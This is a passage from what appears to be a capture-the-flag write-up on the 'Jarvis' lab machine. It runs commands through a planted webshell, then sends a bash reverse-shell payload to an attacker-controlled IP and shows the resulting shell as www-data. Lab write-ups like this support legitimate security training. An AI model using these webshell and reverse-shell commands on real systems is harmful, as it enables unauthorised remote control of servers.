 ```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:10:16(HKT)]
└> curl http://jarvis.htb/webshell.php --get --data-urlencode "cmd=id"
\N	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	\N	\N	\N	\N	\N
```

Ah ha! we can!

**Let's get a reverse shell then!**

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:11:19(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
```

- **Send the reverse shell payload:** (Generated from [revshells.com](https://www.revshells.com/))

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:13:23(HKT)]
└> curl http://jarvis.htb/webshell.php --get --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1'"

```

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:11:19(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.143] 59998
[...]
www-data@jarvis:/var/www/html$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
jarvis
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:71:d5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:71d5/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `www-data`!
